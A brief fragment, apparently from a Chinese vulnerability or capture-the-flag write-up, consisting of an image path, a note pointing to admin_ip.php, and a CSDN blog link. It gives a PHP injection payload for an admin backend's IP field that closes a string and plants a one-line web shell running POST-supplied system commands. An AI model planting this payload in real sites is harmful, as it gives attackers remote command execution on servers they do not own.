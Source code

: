 在admin_ip.php

对应后台的`1.1.1.1";system($_POST[1]);?>#`

https://blog.csdn.net/qq_43573676/article/details/112756967